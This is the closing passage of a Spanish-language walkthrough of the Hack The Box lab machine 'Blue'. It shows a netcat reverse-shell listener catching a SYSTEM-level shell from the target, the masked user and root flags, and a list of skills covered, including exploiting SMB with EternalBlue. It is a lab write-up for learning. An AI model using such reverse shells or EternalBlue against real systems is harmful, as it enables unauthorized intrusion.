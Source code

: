 ```ruby
❯ rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.40] 49166
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
nt authority\system

C:\Windows\system32>

```
7- ¡Somos nt authority\system! Perfecto ya podemos visualizar las flags.

## FLAGS

<h3>User.txt</h3>

```

 Directory of C:\Users\haris\Desktop

24/12/2017  03:23    <DIR>          .
24/12/2017  03:23    <DIR>          ..
05/08/2022  13:16                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   2,483,068,928 bytes free

type user.txt
efc1xxxxxxxxxxxxxxxxxxxxxxxxxxxx

```
<h3>Root.txt</h3>

```
Directory of C:\Users\Administrator\Desktop

24/12/2017  03:22    <DIR>          .
24/12/2017  03:22    <DIR>          ..
05/08/2022  13:16                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   2,483,068,928 bytes free

type root.txt
2fd8xxxxxxxxxxxxxxxxxxxxxxxxxxxx

```
## CONOCIMIENTOS OBTENIDOS

De la máquina <em>Blue</em> podemos extraer los siguientes conocimientos:

- Reconocimiento de puertos con Nmap.
- Comprobar vulnerabilidades explotables con Nmap.
- Explotar smb con EternalBlue.
- Desplegar un servidor smb en nuestro equipo.
